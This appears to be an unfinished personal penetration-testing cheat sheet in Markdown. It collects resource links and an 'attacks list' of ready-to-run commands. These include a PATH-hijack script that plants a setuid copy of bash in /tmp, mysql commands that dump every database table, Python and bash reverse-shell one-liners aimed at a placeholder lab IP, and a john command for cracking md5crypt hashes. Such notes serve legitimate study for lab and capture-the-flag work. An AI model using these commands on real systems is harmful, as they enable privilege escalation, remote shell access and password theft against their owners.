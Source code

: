 ```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```










    
# reverse shells
## python
```python
export RHOST="10.10.x.x";export RPORT=1234; /usr/bin/python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

# Url encoded

```

## bash
```bash
bash -c "bash -i >& /dev/tcp/10.10.x.x/1234 0>&1"

# Url encoded
```












# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```